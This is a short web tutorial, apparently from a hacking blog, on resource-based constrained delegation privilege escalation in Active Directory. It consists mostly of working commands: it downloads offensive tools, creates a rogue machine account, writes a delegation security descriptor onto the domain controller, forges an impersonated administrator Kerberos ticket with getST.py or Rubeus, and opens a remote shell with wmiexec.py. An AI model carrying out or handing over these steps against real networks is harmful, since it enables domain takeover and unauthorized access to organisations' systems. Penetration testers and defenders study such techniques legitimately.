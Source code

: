 [back](/)

### Resource-based Constrained Delegation

Each domain user, by default, has permission to add 10 computers to the domain. This fact very often helps when you have GenericAll rights, for example from a user group to a domain controller. Here is a small manual for elevating privileges in a domain.

![Image](/img/rbcd/1.png)

First of all lets get dome useful tools:

```
git clone https://github.com/Kevin-Robertson/Powermad
git clone https://github.com/SecureAuthCorp/impacket
git clone https://github.com/GhostPack/Rubeus
wget  https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```

Step-by-step privesc:

```
import-module .\Powermad.ps1
New-MachineAccount -MachineAccount JAKI2 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

import-module .\PowerView.ps1
$ComputerSid = Get-DomainComputer JAKI2 -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

getST.py jaki.local/JAKI2 -dc-ip dc.jaki.local -impersonate administrator -spn www/dc.jaki.local
```

![Image](/img/rbcd/2.png)


```
export KRB5CCNAME=administrator.ccache

wmiexec.py dc.jaki.local -k

OR

execute-assembly /tmp/Rubeus.exe s4u /user:JAKI2 /rc4:32ed87bdb5fdc5e9cba88547376818d4 /impersonateuser:administrator /msdsspn:cifs/dc.jaki.local /ptt
```

![Image](/img/rbcd/3.png)

![Image](/img/rbcd/4.png)

```
cat /tmp/ticket_b64 | sed /^$/d | tr -d '\r\n' | sed -e "s/ //g" | base64 -d > /tmp/ticket

ticketConverter.py /tmp/ticket.kirbi admin.ccache 

export KRB5CCNAME=admin.ccache

wmiexec.py dc.jaki.local -k 
```


Useful links:

+ [PowerShellMafia](https://github.com/PowerShellMafia)
+ [Powermad](https://github.com/Kevin-Robertson/Powermad)
+ [Rubeus](https://github.com/GhostPack/Rubeus)
+ [Impacket](https://github.com/SecureAuthCorp/impacket)
+ [BloodHound](https://github.com/BloodHoundAD/BloodHound)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)